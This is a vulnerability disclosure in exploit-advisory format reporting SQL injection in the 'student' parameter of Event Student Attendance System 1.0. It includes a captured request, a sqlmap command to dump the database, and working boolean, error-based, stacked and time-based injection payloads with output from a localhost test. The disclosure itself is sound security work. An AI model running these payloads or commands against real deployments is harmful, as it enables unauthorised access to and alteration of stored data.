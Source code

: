 # Event Student Attendance System - SQL Injection
+ *Exploit Title:* Event Student Attendance System - SQL Injection
+ *Date:* 2024-30-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17139/event-student-attendance-system-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17139&title=Event+Student+Attendance+System+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, Waiting for CVE number

## References: 
+ https://portswigger.net/web-security/sql-injection

## Description:
Event Student Attendance System 1.0, allows SQL Injection via the 'student' parameter in `http://localhost/event-student-attendance/endpoint/delete-student.php?student=3`. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "/event-student-attendance/endpoint/delete-student.php?student=3"
+ Select any student and press the delete-student button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /event-student-attendance/endpoint/delete-student.php?student=3 HTTP/1.1
Host: localhost
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database.
```
python sqlmap.py -r r.txt -p student --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: student (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: student=3' RLIKE (SELECT (CASE WHEN (6164=6164) THEN 3 ELSE 0x28 END))-- gVVq

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: student=3' AND EXTRACTVALUE(1609,CONCAT(0x5c,0x71787a6271,(SELECT (ELT(1609=1609,1))),0x7176787871))-- qYlQ

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: student=3';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=3' AND (SELECT 8964 FROM (SELECT(SLEEP(5)))RifB)-- PFRp
---
[16:48:22] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[16:48:22] [INFO] fetching current database
[16:48:22] [INFO] retrieved: 'event_attendance_db'
current database: 'event_attendance_db'
```
+ current database : `event_attendance_db`
  
  ![Ekran görüntüsü 2024-01-30 165509](https://github.com/tubakvgc/CVE/assets/74067343/bd372ec7-a7f3-4200-b030-ece2d90ab0f5)


  
